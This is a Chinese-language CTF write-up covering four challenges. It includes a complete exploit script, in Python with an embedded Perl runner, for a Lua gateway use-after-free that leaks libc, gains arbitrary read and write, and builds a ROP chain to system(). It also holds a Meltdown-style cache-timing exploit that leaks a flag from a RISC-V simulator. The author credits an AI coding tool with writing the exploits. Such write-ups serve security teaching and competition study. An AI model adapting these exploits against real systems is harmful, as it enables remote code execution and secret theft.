

- [1. babygate(solve)](#1-babygatesolve)
- [2. amcu-dist（没有环境）](#2-amcu-dist没有环境)
  - [2.1 MCU如何通过I2C与EEPROM通信](#21-mcu如何通过i2c与eeprom通信)
  - [2.2 firmware.bin逻辑分析](#22-firmwarebin逻辑分析)
- [3. ACPU(solve)](#3-acpusolve)
  - [3.1 simulation分析](#31-simulation分析)
  - [3.2 system.mem分析](#32-systemmem分析)
  - [3.3 exp](#33-exp)
- [4. AGPU](#4-agpu)


# 1. babygate(solve)<br>
关于lua脚本加载的题目，程序逻辑如下:<br>
请AI分析关键逻辑后，给出漏洞点 UAF:<br>


```python
#!/usr/bin/env python3
import argparse
import re
import socket
import subprocess
import struct
import sys
import time
from pathlib import Path


LIBC_UNSORTED_LEAK_OFF = 0x204140
LIBC_ENVIRON_OFF = 0x20AD58
LIBC_SYSTEM_OFF = 0x58750
LIBC_POP_RDI_RET_OFF = 0x10F78B
LIBC_RET_OFF = 0x2882F

# In the xinetd/chroot challenge environment this is stable for the
# lua_pkt_write() call reached by the final W command.
STACK_RET_FROM_ENVIRON = 0x4A0


LUA = r'''
local stage = 0
local leak = nil
local keep = {}
local views = {}
local stale = nil
local rw = nil
local rw_off = 0

local function find_rw(mem)
  local pat = string.char(0x77,0x07,0,0,0,0,0,0)
  local pos = mem:find(pat, 1, true)
  local b1 = string.byte(mem, pos - 8) or 0
  local b2 = string.byte(mem, pos - 7) or 0
  return b1 + b2 * 256, pos - 1 - 16
end

gateway.run(function(conn, pkt)
  if stage == 0 then
    keep[#keep + 1] = string.rep("G", 8192)
    conn:close()
    leak = pkt:tostring()
    stage = 1
    return
  end

  if stage == 1 then
    conn:send(leak:sub(1, 64))
    stage = 2
    return
  end

  local data = pkt:tostring()

  if stage == 2 then
    keep[#keep + 1] = string.rep("H", 8192)
    stale = pkt
    conn:close()
    for i = 1, 240 do
      views[i] = pkt:view(i, 0x777)
    end
    local idx, off = find_rw(stale:tostring())
    rw = views[idx]
    rw_off = off
    stale:write(rw_off, data:sub(1, 24))
    stage = 3
    return
  end

  local cmd = data:sub(1, 1)
  if cmd == "R" then
    stale:write(rw_off, data:sub(2, 25))
    conn:send(rw:tostring())
    return
  end

  if cmd == "W" then
    stale:write(rw_off, data:sub(2, 25))
    rw:write(0, data:sub(26))
    conn:send("OK")
    return
  end
end)
EOF
'''.encode()


def p64(x):
    return struct.pack("<Q", x)


def u64(b):
    return struct.unpack("<Q", b[:8].ljust(8, b"\x00"))[0]


def cfg(addr, length, off=0):
    return p64(addr) + p64(off) + p64(length)


def request(host, port, data, timeout=2.0):
    with socket.create_connection((host, port), timeout=3.0) as s:
        s.settimeout(timeout)
        s.sendall(data)
        out = b""
        while True:
            try:
                chunk = s.recv(65536)
            except TimeoutError:
                break
            except socket.timeout:
                break
            if not chunk:
                break
            out += chunk
        return out


def is_local_host(host):
    return host in {"127.0.0.1", "localhost", "::1", "0.0.0.0"}


def find_badgate_container(service_port):
    try:
        ps = subprocess.run(
            ["docker", "ps", "--format", "{{.ID}}\t{{.Image}}\t{{.Names}}\t{{.Ports}}"],
            check=False,
            capture_output=True,
            text=True,
            timeout=3.0,
        )
    except (OSError, subprocess.SubprocessError):
        return None

    if ps.returncode != 0:
        return None

    candidates = []
    for line in ps.stdout.splitlines():
        parts = line.split("\t", 3)
        if len(parts) != 4:
            continue
        cid, image, name, ports = parts
        label = f"{image} {name}".lower()
        if "badgate" not in label and "gateway" not in label:
            continue
        if f":{service_port}->" not in ports and f"0.0.0.0:{service_port}" not in ports:
            continue
        candidates.append((cid, ports))

    if not candidates:
        return None

    # When only the xinetd entry port is published, the random 10000-12000
    # listener is reachable only from inside the container network namespace.
    for cid, ports in candidates:
        if "10000" not in ports and "12000" not in ports:
            return cid
    return None


PERL_RUNNER = r'''
use strict;
use warnings;
use IO::Select;
use IO::Socket::INET;
use Time::HiRes qw(time);

$| = 1;
binmode STDOUT;

my $LIBC_UNSORTED_LEAK_OFF = 0x204140;
my $LIBC_ENVIRON_OFF = 0x20AD58;
my $LIBC_SYSTEM_OFF = 0x58750;
my $LIBC_POP_RDI_RET_OFF = 0x10F78B;
my $LIBC_RET_OFF = 0x2882F;
my $STACK_RET_FROM_ENVIRON = 0x4A0;

my $LUA = <<'LUA_SCRIPT';
local stage = 0
local leak = nil
local keep = {}
local views = {}
local stale = nil
local rw = nil
local rw_off = 0

local function find_rw(mem)
  local pat = string.char(0x77,0x07,0,0,0,0,0,0)
  local pos = mem:find(pat, 1, true)
  local b1 = string.byte(mem, pos - 8) or 0
  local b2 = string.byte(mem, pos - 7) or 0
  return b1 + b2 * 256, pos - 1 - 16
end

gateway.run(function(conn, pkt)
  if stage == 0 then
    keep[#keep + 1] = string.rep("G", 8192)
    conn:close()
    leak = pkt:tostring()
    stage = 1
    return
  end

  if stage == 1 then
    conn:send(leak:sub(1, 64))
    stage = 2
    return
  end

  local data = pkt:tostring()

  if stage == 2 then
    keep[#keep + 1] = string.rep("H", 8192)
    stale = pkt
    conn:close()
    for i = 1, 240 do
      views[i] = pkt:view(i, 0x777)
    end
    local idx, off = find_rw(stale:tostring())
    rw = views[idx]
    rw_off = off
    stale:write(rw_off, data:sub(1, 24))
    stage = 3
    return
  end

  local cmd = data:sub(1, 1)
  if cmd == "R" then
    stale:write(rw_off, data:sub(2, 25))
    conn:send(rw:tostring())
    return
  end

  if cmd == "W" then
    stale:write(rw_off, data:sub(2, 25))
    rw:write(0, data:sub(26))
    conn:send("OK")
    return
  end
end)
EOF
LUA_SCRIPT

sub p64 {
    return pack("Q<", $_[0]);
}

sub u64 {
    my $b = substr($_[0] . ("\x00" x 8), 0, 8);
    return unpack("Q<", $b);
}

sub cfg {
    my ($addr, $len, $off) = @_;
    $off //= 0;
    return p64($addr) . p64($off) . p64($len);
}

sub send_all {
    my ($sock, $data) = @_;
    while (length($data) > 0) {
        my $sent = $sock->send($data);
        die "send failed\n" unless defined $sent;
        substr($data, 0, $sent, "");
    }
}

sub connect_tcp {
    my ($host, $port) = @_;
    my $sock = IO::Socket::INET->new(
        PeerAddr => $host,
        PeerPort => $port,
        Proto => "tcp",
        Timeout => 3,
    );
    die "connect $host:$port failed: $!\n" unless $sock;
    return $sock;
}

sub read_chunk {
    my ($sock, $timeout, $max) = @_;
    my $sel = IO::Select->new($sock);
    return undef unless $sel->can_read($timeout);
    my $buf = "";
    my $ok = $sock->recv($buf, $max);
    return undef unless defined $ok;
    return $buf;
}

sub request {
    my ($host, $port, $data, $timeout) = @_;
    $timeout //= 2.0;
    my $sock = connect_tcp($host, $port);
    send_all($sock, $data);
    my $out = "";
    while (1) {
        my $chunk = read_chunk($sock, $timeout, 65536);
        last unless defined $chunk;
        last if length($chunk) == 0;
        $out .= $chunk;
    }
    close($sock);
    return $out;
}

sub start_gateway {
    my ($host, $port) = @_;
    my $sock = connect_tcp($host, $port);
    my $prompt = read_chunk($sock, 1.0, 4096);
    send_all($sock, $LUA);

    my $banner = "";
    my $deadline = time() + 5.0;
    while (time() < $deadline) {
        if ($banner =~ /:\s*(\d+)/ || $banner =~ /\b(1[01]\d{3}|12000)\b/) {
            close($sock);
            return int($1);
        }
        my $left = $deadline - time();
        my $chunk = read_chunk($sock, $left > 0.5 ? 0.5 : $left, 4096);
        next unless defined $chunk;
        last if length($chunk) == 0;
        $banner .= $chunk;
    }

    close($sock);
    die "failed to parse listener port from: $banner\n";
}

sub exploit {
    my ($host, $port, $command) = @_;
    my $gate_port = start_gateway($host, $port);
    print "[+] gateway data port: $gate_port\n";

    request($host, $gate_port, "A" x 4095);
    my $leak = request($host, $gate_port, "B");
    die "short leak\n" if length($leak) < 32;

    my $libc_leak = u64(substr($leak, 0, 8));
    my $libc_base = $libc_leak - $LIBC_UNSORTED_LEAK_OFF;
    my $heap_leak = u64(substr($leak, 16, 8));
    printf("[+] libc leak: %#x\n", $libc_leak);
    printf("[+] libc base: %#x\n", $libc_base);
    printf("[+] heap leak: %#x\n", $heap_leak);

    my $environ_addr = $libc_base + $LIBC_ENVIRON_OFF;
    my $stage2 = cfg($environ_addr, 8);
    $stage2 .= "C" x (4095 - length($stage2));
    request($host, $gate_port, $stage2);

    my $environ = u64(request($host, $gate_port, "R" . cfg($environ_addr, 8)));
    my $ret_addr = $environ - $STACK_RET_FROM_ENVIRON;
    printf("[+] environ: %#x\n", $environ);
    printf("[+] target ret slot: %#x\n", $ret_addr);

    my $ret = $libc_base + $LIBC_RET_OFF;
    my $pop_rdi = $libc_base + $LIBC_POP_RDI_RET_OFF;
    my $system = $libc_base + $LIBC_SYSTEM_OFF;
    my $cmd = $command . "\x00";
    my $cmd_addr = $ret_addr + 8 * 5;
    my $rop = p64($ret) . p64($pop_rdi) . p64($cmd_addr) . p64($system) . p64(0) . $cmd;

    printf("[+] system: %#x\n", $system);
    print "[+] command: '$command'\n";
    return request($host, $gate_port, "W" . cfg($ret_addr, length($rop)) . $rop, 5.0);
}

my ($host, $port, $command) = @ARGV;
$host //= "127.0.0.1";
$port //= 9999;
$command //= "cat /flag >&0";

my $out = exploit($host, int($port), $command);
print $out;
print "\n" if length($out) && substr($out, -1) ne "\n";
'''


def container_has(container, binary):
    result = subprocess.run(
        ["docker", "exec", container, "sh", "-lc", f"command -v {binary} >/dev/null 2>&1"],
        check=False,
        stdout=subprocess.DEVNULL,
        stderr=subprocess.DEVNULL,
    )
    return result.returncode == 0


def run_inside_container(container, host, port, command):
    if container_has(container, "python3"):
        runner = "python3"
        payload = Path(__file__).read_bytes()
    elif container_has(container, "perl"):
        runner = "perl"
        payload = PERL_RUNNER.encode()
    else:
        raise RuntimeError(f"container {container} has neither python3 nor perl")

    argv = [
        "docker",
        "exec",
        "-i",
        container,
        runner,
        "-",
        "127.0.0.1",
        str(port),
    ]
    if runner == "python3":
        argv += ["--cmd", command, "--no-docker-fallback"]
    else:
        argv += [command]
    return subprocess.run(argv, input=payload, check=False).returncode


def start_gateway(host, port):
    with socket.create_connection((host, port), timeout=3.0) as s:
        s.settimeout(1.0)
        try:
            s.recv(4096)
        except socket.timeout:
            pass
        s.sendall(LUA)

        banner = b""
        deadline = time.time() + 5.0
        while time.time() < deadline:
            m = re.search(rb":\s*(\d+)", banner)
            if not m:
                m = re.search(rb"\b(1[01]\d{3}|12000)\b", banner)
            if m:
                return int(m.group(1))

            s.settimeout(max(0.1, min(0.5, deadline - time.time())))
            try:
                chunk = s.recv(4096)
            except socket.timeout:
                continue
            if not chunk:
                break
            banner += chunk

    raise RuntimeError(f"failed to parse listener port from: {banner!r}")


def exploit(host, port, command):
    gate_port = start_gateway(host, port)
    print(f"[+] gateway data port: {gate_port}", flush=True)

    # Stage 0: close conn, copy freed 0x1000 chunk contents into Lua string.
    request(host, gate_port, b"A" * 4095)

    # Stage 1: send the saved unsorted-bin leak.
    leak = request(host, gate_port, b"B")
    if len(leak) < 32:
        raise RuntimeError(f"short leak: {leak!r}")

    libc_leak = u64(leak[:8])
    libc_base = libc_leak - LIBC_UNSORTED_LEAK_OFF
    heap_leak = u64(leak[16:24])
    print(f"[+] libc leak: {libc_leak:#x}", flush=True)
    print(f"[+] libc base: {libc_base:#x}", flush=True)
    print(f"[+] heap leak: {heap_leak:#x}", flush=True)

    # Stage 2: make the freed packet buffer overlap many pkt:view() userdata
    # objects, then corrupt the first overlapping view into rw.
    environ_addr = libc_base + LIBC_ENVIRON_OFF
    request(host, gate_port, cfg(environ_addr, 8).ljust(4095, b"C"))

    environ = u64(request(host, gate_port, b"R" + cfg(environ_addr, 8)))
    ret_addr = environ - STACK_RET_FROM_ENVIRON
    print(f"[+] environ: {environ:#x}", flush=True)
    print(f"[+] target ret slot: {ret_addr:#x}", flush=True)

    ret = libc_base + LIBC_RET_OFF
    pop_rdi = libc_base + LIBC_POP_RDI_RET_OFF
    system = libc_base + LIBC_SYSTEM_OFF

    cmd = command.encode() + b"\x00"
    cmd_addr = ret_addr + 8 * 5
    rop = b"".join([
        p64(ret),
        p64(pop_rdi),
        p64(cmd_addr),
        p64(system),
        p64(0),
        cmd,
    ])

    print(f"[+] system: {system:#x}", flush=True)
    print(f"[+] command: {command!r}", flush=True)
    out = request(host, gate_port, b"W" + cfg(ret_addr, len(rop)) + rop, timeout=5.0)
    return out


def main():
    ap = argparse.ArgumentParser()
    ap.add_argument("host", nargs="?", default="127.0.0.1")
    ap.add_argument("port", nargs="?", type=int, default=9999)
    ap.add_argument("--cmd", default="cat /flag >&0")
    ap.add_argument("--container", help="run the network part inside this Docker container")
    ap.add_argument("--no-docker-fallback", action="store_true")
    args = ap.parse_args()

    if args.container:
        raise SystemExit(run_inside_container(args.container, args.host, args.port, args.cmd))

    if not args.no_docker_fallback and is_local_host(args.host):
        container = find_badgate_container(args.port)
        if container:
            print(f"[*] detected unpublished random listener; using docker exec in {container}", flush=True)
            raise SystemExit(run_inside_container(container, args.host, args.port, args.cmd))

    out = exploit(args.host, args.port, args.cmd)
    sys.stdout.buffer.write(out)
    if out and not out.endswith(b"\n"):
        sys.stdout.buffer.write(b"\n")


if __name__ == "__main__":
    main()
```
轻松拿下。<br>

# 2. amcu-dist（没有环境）<br>
是个固件题目，年赛的时候有遇到类似的，正好看看这种题目一般是怎么做的。<br>
架构图:<br>

逻辑如下：
```
1. 选手电脑通过tcp链接访问部署了附件server.py
2. server.py接受了选手的请求认证后，会做如下3件事：
      2.1 GPIO控制单板启动电源
      2.2 GIPO控制CH32V003单板进入烧录模式
      2.3 通过usb烧录固件 firmware.bin到单板上
      2.4 对MCU的UART端口转发
3. 单板内部也有结构划分
      3.1 MCU，单板的逻辑处理单元，firmware.bin加载到MCU的内部flash上。 MCU内部还有片内SRAM（即内存）存放运行时数据。
      3.2 I2C，（Inter-Integrated Circuit，读作“I-squared-C”）是一种用于芯片之间通信的串行总线协议
      3.3 EEPROM，Electrically Erasable Programmable Read-Only Memory，电可擦除可编程只读存储器
    EEPROM只能由MCU通过I2C进行读写。
        CH32V003             EEPROM                 作用
        ---------            ------              ---------
        SDA  ---------------- SDA                I²C 的数据线，用来传输数据
        SCL  ---------------- SCL                I²C 的时钟线，用来控制数据传输节奏
        GND  ---------------- GND                地线，电路的电压参考点，通常接电源负极
        3.3V ---------------- VCC                电源正极，用来给芯片供电

4. 选手通过操作MCU，尝试读取EEPROM中的flag。
```
## 2.1 MCU如何通过I2C与EEPROM通信<br>

这是题目给的图.<br>
AT24C64 这类 24Cxx EEPROM 的 I2C 地址格式是：
```
1010 A2 A1 A0 R/W
```
因为全都接地，所以实际上地址格式为:<br>
```
1010 00 00 00 R/W = 0xA0 | R/W

R = 1
W = 0
所以 READ指令为 0xA1， WRITE指令为0xA0
```

## 2.2 firmware.bin逻辑分析<br>

漏洞其实很简单。<br>

# 3. ACPU(solve)<br>
又是risc-v架构<br>
这道题的访问接口，实际执行的是`run.py`文件，该文件会做如下几件事:<br>
```
1. 读取用户输入的**base64（机器码）**，并解码
2. 把bin/system.mem文件拷贝到 /tmp/rom_file.mem，相当于是每次重新启动时刷新rom_file.mem
3. 用户输入的代码追加到rom_file.mem的 0x100位置处
4. flag写入flag.mem中
5. 运行CPU仿真器simulation
```
## 3.1 simulation分析<br>

其实相当于读入了`rom_file.mem`和`flag.mem`到内存中，并直接执行用户输入的程序。<br>
可以让codex分析，得到实际加载到内存的两个mem的地址是多少:<br>


所以可以得知，`rom_file.mem`存放在`0x400`的位置，而`flag.mem`存放在`0x80000000`开始的位置。<br>

## 3.2 system.mem分析<br>
```
LOAD:00000000                 li              t0, 400h   # load immediate, t0=0x400 
LOAD:00000004                 csrw            sepc, t0   # csr write指令，设置sepc(sepc 是 Supervisor Exception Program Counter，即 supervisor 模式下的异常返回地址寄存器) 为0x400，即sret的返回值为0x400
LOAD:00000008                 li              t0, 40h   # t0= 0x40
LOAD:0000000C                 csrw            stvec, t0  # 设置stvec（Supervisor Trap Vector Base Address Register）为0x40，当用户执行ecall或者出现异常，比如非法指令、访问异常等，CPU 就会跳转到 stvec 指定的地址去执行 trap handler） 为0x40
LOAD:00000010                 li              t0, 0  
LOAD:00000014                 lui             sp, 10h  # Load Upper Immediate，把立即数 0x10 放到寄存器 sp 的高位，低 12 位补 0， sp= 0x10<<12 = 0x10000
LOAD:00000018                 sret               # 返回，返回到0x400，即用户的输入     
```
`0x400`是用户输入，这里需要重点分析一下0x40，异常处理的代码:<br>


```
LOAD:00000040                 lui             t0, 10h  # t0= 0x10 
LOAD:00000044                 bgeu            a0, t0, loc_98  # branch if greater or equal , 如果a0 >= 0x10000, 就跳转到loc_98. 
LOAD:00000048                 li              t0, 0   # t0 = 0
LOAD:0000004C                 li              t1, 1   # t1 = 1
LOAD:00000050                 slli            t1, t1, 1Fh # Shift Left Logical Immediate， t1 = t1<<31 = 0x80000000
LOAD:00000054                 mv              t2, a0  # t2 = a0
LOAD:00000058                 li              a0, 0   # a0 = 0
LOAD:0000005C
LOAD:0000005C loc_5C:                                 
LOAD:0000005C                 lw              t3, 0(t1) # load word, t3 = *(uint32 *)(t1+0)
LOAD:00000060                 lw              t4, 0(t2) # t4 = *(uint32 *)(t2+0)
LOAD:00000064                 beq             t3, t4, loc_6C # bran if equal,如果t3 == t4,跳转
LOAD:00000068                 ori             a0, a0, 1 
LOAD:0000006C
LOAD:0000006C loc_6C:                                 
LOAD:0000006C                 addi            t0, t0, 4 
LOAD:00000070                 addi            t1, t1, 4 
LOAD:00000074                 addi            t2, t2, 4 
LOAD:00000078                 li              t3, 40h
LOAD:0000007C                 bne             t0, t3, loc_5C 
LOAD:00000080
LOAD:00000080 loc_80:                                
LOAD:00000080                 li              t0, 0   
LOAD:00000084                 li              t1, 0
LOAD:00000088                 li              t2, 0
LOAD:0000008C                 li              t3, 0
LOAD:00000090                 li              t4, 0
LOAD:00000094                 sret                    
LOAD:00000098 # ---------------------------------------------------------------------------
LOAD:00000098
LOAD:00000098 loc_98:                                
LOAD:00000098                 li              a0, -1  
LOAD:0000009C                 j               loc_80 
```
其实就是判断你输入的地址是不是在0x10000以内，不是就报异常。<br>
漏洞：**本质上利用了meltdown漏洞**<br>
利用逻辑如下:<br>
```
# public_base = 0x1000
# stride      = 0x100
#
# secret_addr = 0x80000000 + (byte_index / 4) * 4
# shift       = (byte_index % 4) * 8
# probe_addr  = public_base + candidate * stride

_start:
    # s0 = public_base
    li      s0, 0x1000

    # t0 = secret_addr
    li      t0, secret_addr

    # 非法读取 flag word
    # 架构上最终不会成功写回，但瞬态值会进入转发路径
    lw      t0, 0(t0)

    # 取出目标 byte
    # 如果 byte_index % 4 == 0，这条可以省略
    srli    t0, t0, shift

    # t0 = secret_byte
    andi    t0, t0, 0xff

    # t0 = secret_byte * 0x100
    slli    t0, t0, 8

    # t0 = public_base + secret_byte * 0x100
    add     t0, s0, t0

    # 用 secret_byte 访问 public cache
    # 这一条是污染 cache 的关键
    lw      t1, 0(t0)

    # t2 = public_base + candidate * 0x100
    li      t2, probe_addr

    # probe candidate
    # 如果 candidate == secret_byte，这里 cache hit，cycles 更少
    lw      s1, 0(t2)

    # 退出仿真
    # pc > 0x1fff 后 Simulation 会打印寄存器和 took cycles
    li      t0, 0x2000
    jalr    zero, t0, 0


非法读 flag
↓
flag 短暂进入 CPU 流水线
↓
用这个临时值访问 public cache
↓
cache 状态发生变化
↓
通过 cycles 快慢判断 flag 字节
```

## 3.3 exp<br>
codex 完美解决:<br>
```python

#!/usr/bin/env python3
import argparse
import base64
import re
import socket
import statistics
import string
import struct
import sys


DEFAULT_HOST = "127.0.0.1"
DEFAULT_PORT = 9999
DEFAULT_PREFIX = "ACTF{"
DEFAULT_CHARSET = (
    "}_"
    + string.ascii_lowercase
    + string.ascii_uppercase
    + string.digits
    + "{-!@#$%^&*()+=:;,.?/[]<>|~"
)


def r_type(funct7, rs2, rs1, funct3, rd, opcode=0x33):
    return (
        ((funct7 & 0x7F) << 25)
        | ((rs2 & 0x1F) << 20)
        | ((rs1 & 0x1F) << 15)
        | ((funct3 & 7) << 12)
        | ((rd & 0x1F) << 7)
        | opcode
    )


def i_type(imm, rs1, funct3, rd, opcode=0x13):
    return (
        ((imm & 0xFFF) << 20)
        | ((rs1 & 0x1F) << 15)
        | ((funct3 & 7) << 12)
        | ((rd & 0x1F) << 7)
        | opcode
    )


def lui(rd, imm20):
    return ((imm20 & 0xFFFFF) << 12) | ((rd & 0x1F) << 7) | 0x37


def addi(rd, rs1, imm):
    return i_type(imm, rs1, 0, rd)


def andi(rd, rs1, imm):
    return i_type(imm, rs1, 7, rd)


def slli(rd, rs1, shamt):
    return (shamt << 20) | ((rs1 & 0x1F) << 15) | (1 << 12) | ((rd & 0x1F) << 7) | 0x13


def srli(rd, rs1, shamt):
    return (shamt << 20) | ((rs1 & 0x1F) << 15) | (5 << 12) | ((rd & 0x1F) << 7) | 0x13


def add(rd, rs1, rs2):
    return r_type(0, rs2, rs1, 0, rd)


def lw(rd, rs1, imm):
    return ((imm & 0xFFF) << 20) | ((rs1 & 0x1F) << 15) | (2 << 12) | ((rd & 0x1F) << 7) | 0x03


def jalr(rd, rs1, imm):
    return ((imm & 0xFFF) << 20) | ((rs1 & 0x1F) << 15) | ((rd & 0x1F) << 7) | 0x67


def li(rd, value):
    value &= 0xFFFFFFFF
    hi = (value + 0x800) >> 12
    lo = value - (hi << 12)
    return [lui(rd, hi), addi(rd, rd, lo)]


def pack(insns):
    return b"".join(struct.pack("<I", insn & 0xFFFFFFFF) for insn in insns)


def make_probe_payload(byte_index, candidate, public_base=0x1000, stride=0x100):
    secret_addr = 0x80000000 + (byte_index // 4) * 4
    shift = (byte_index % 4) * 8
    probe_addr = public_base + candidate * stride

    code = []

    # x8/s0 = public_base
    code += li(8, public_base)

    # x5/t0 = *(0x80000000 + word_offset)
    # Architecturally this becomes zero in user mode, but the transient value is
    # forwarded long enough to affect the following public-memory load.
    code += li(5, secret_addr)
    code.append(lw(5, 5, 0))

    if shift:
        code.append(srli(5, 5, shift))
    code.append(andi(5, 5, 0xFF))
    code.append(slli(5, 5, 8))
    code.append(add(5, 8, 5))

    # Touch public_base + secret_byte * stride, bringing one cache line in.
    code.append(lw(6, 5, 0))

    # Probe public_base + candidate * stride. If candidate == secret_byte, this
    # second load hits cache and the final "took N cycles" is lower.
    code += li(7, probe_addr)
    code.append(lw(9, 7, 0))

    # Exit cleanly: pc > 0x1fff makes Simulation dump regs/cycles and finish.
    code += li(5, 0x2000)
    code.append(jalr(0, 5, 0))
    return pack(code)


def recv_until(sock, marker):
    data = bytearray()
    while marker not in data:
        chunk = sock.recv(4096)
        if not chunk:
            raise EOFError("connection closed")
        data += chunk
    return bytes(data)


def run_once(sock, payload):
    sock.sendall(base64.b64encode(payload) + b"\n")
    out = recv_until(sock, b"give me your code:\n").decode("utf-8", "replace")
    match = re.search(r"took\s+(\d+)\s+cycles", out)
    if not match:
        raise RuntimeError(f"no cycle count in service output:\n{out}")
    return int(match.group(1)), out


def score_candidate(sock, byte_index, candidate, retries):
    scores = []
    last_output = ""
    payload = make_probe_payload(byte_index, candidate)
    for _ in range(retries):
        cycles, last_output = run_once(sock, payload)
        scores.append(cycles)
    return statistics.median(scores), scores, last_output


def recover(args):
    charset = args.charset.encode()
    found = bytearray(args.prefix.encode())

    with socket.create_connection((args.host, args.port), timeout=args.timeout) as sock:
        sock.settimeout(args.timeout)
        recv_until(sock, b"give me your code:\n")

        for byte_index in range(len(found), args.max_len):
            results = []
            for candidate in charset:
                median, samples, _ = score_candidate(sock, byte_index, candidate, args.retries)
                results.append((median, candidate, samples))

            results.sort(key=lambda item: item[0])
            best_cycles, best_candidate, best_samples = results[0]
            found.append(best_candidate)

            preview = " ".join(
                f"{chr(c) if 32 <= c < 127 else hex(c)}:{cyc:g}"
                for cyc, c, _ in results[: args.show_top]
            )
            print(
                f"[{byte_index:02d}] {best_candidate:#04x} "
                f"{chr(best_candidate)!r} cycles={best_cycles:g} samples={best_samples} "
                f"top={preview}"
            )
            print(f"flag so far: {found.decode('latin1', 'replace')}", flush=True)

            if best_candidate == ord("}") and byte_index >= len(args.prefix):
                break

    return found.decode("latin1", "replace")


def main():
    parser = argparse.ArgumentParser(description="Exploit ACPU via transient secret load + cache timing.")
    parser.add_argument("--host", default=DEFAULT_HOST)
    parser.add_argument("--port", default=DEFAULT_PORT, type=int)
    parser.add_argument("--prefix", default=DEFAULT_PREFIX, help="known flag prefix to skip/reuse")
    parser.add_argument("--charset", default=DEFAULT_CHARSET)
    parser.add_argument("--max-len", default=64, type=int)
    parser.add_argument("--retries", default=1, type=int)
    parser.add_argument("--timeout", default=20, type=float)
    parser.add_argument("--show-top", default=5, type=int)
    args = parser.parse_args()

    flag = recover(args)
    print(f"\nrecovered: {flag}")


if __name__ == "__main__":
    try:
        main()
    except KeyboardInterrupt:
        sys.exit("\ninterrupted")

```

# 4. AGPU<br>
GPU DRIVER的题目<br>


<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>